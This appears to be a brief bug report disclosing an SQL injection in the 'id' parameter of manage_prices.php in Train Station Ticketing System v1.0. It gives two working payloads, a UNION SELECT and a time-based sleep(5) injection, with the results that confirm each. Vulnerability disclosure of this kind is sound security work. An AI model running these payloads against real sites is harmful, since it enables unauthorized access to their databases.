 # Train Station Ticketing System v1.0 has SQL injection

BUG_Author：syr14

Website source address: https://www.sourcecodester.com/php/14572/train-station-ticketing-system-using-phpmysqli-source-code.html

Vulnerability File: /train_ticketing/manage_prices.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=1 union all select concat(0x616263,0x7576777879),null,null-- -

The union query is successful, which proves that there is SQL injection.

![image](https://github.com/shiyur14/bugReport/blob/main/sql.png)

Payload2: id=1 and(select 5 from (select(sleep(5)))e)

The response time of the server is 5 seconds, which proves that there is SQL injection.

![image](https://github.com/shiyur14/bugReport/blob/main/sql1.png)
